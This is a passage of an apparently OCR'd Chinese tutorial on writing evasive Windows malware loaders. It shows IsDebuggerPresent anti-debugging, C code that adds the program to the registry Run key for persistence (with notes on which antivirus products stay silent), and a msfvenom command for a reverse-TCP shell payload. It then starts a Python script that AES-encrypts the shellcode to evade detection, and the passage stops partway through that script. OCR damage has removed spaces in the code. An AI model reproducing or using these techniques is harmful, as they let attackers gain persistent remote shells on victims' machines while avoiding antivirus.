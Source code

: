 	```

- IsDebuggerPresent() 返回非零值，意味着检测到调试器，程序将调用 ExitProcess(1)退出程序，实测xdbg调试程序时会触发退出

# 添加到开机启动项

- 'Software\\Microsoft\\Windows\\CurrentVersion\\Run' 是一个注册表路径，用于存储当前用户登录时自动运行的程序。我们可以将当前程序的路径写入该注册表项，以实现开机自启动功能
```BASH

#include <windows.h>
#include<stdio.h>

void add_to_startup(constchar*appname,constchar*path){
    HKEY hKey;
    LONG result;

    result =RegOpenKeyEx(HKEY_CURRENT_USER,
'Software\\Microsoft\\Windows\\CurrentVersion\\Run',
0, KEY_SET_VALUE,&hKey);

if(result != ERROR_SUCCESS){
return;
}

    result =RegSetValueEx(hKey, appname,0, REG_SZ,(BYTE *)path, strlen(path)+1);

RegCloseKey(hKey);
}

int main(int argc,char*argv[]){
char path[MAX_PATH];
if(GetModuleFileName(NULL, path, MAX_PATH)==0){
return1;
}
    add_to_startup('MyAppName', path);
}

```

- 实测写入注册表时，只有360会有提示，火绒和defender不会有任何弹窗提示。

# AES混淆shellcode

- 首先需要cs或者msf生成raw格式的shellcode源文件，这里用msf举例
```BASH
msfvenom -p  windows/x64/shell_reverse_tcp lhost=192.168.0.110 lport=8888 -f raw -o msf.bin
```

- 然后用python脚本生成aes加密的key和加密后的shellcode
```python

import sys
fromCrypto.Cipherimport AES
fromCrypto.Util.Paddingimport pad
from os import urandom
import hashlib

defAESencrypt(plaintext, key):
    k = hashlib.sha256(KEY).digest()
    iv =16* b'\x00'
    plaintext = pad(plaintext, AES.block_size)
    cipher = AES.new(k, AES.MODE_CBC, iv)
    ciphertext = cipher.encrypt(plaintext)
```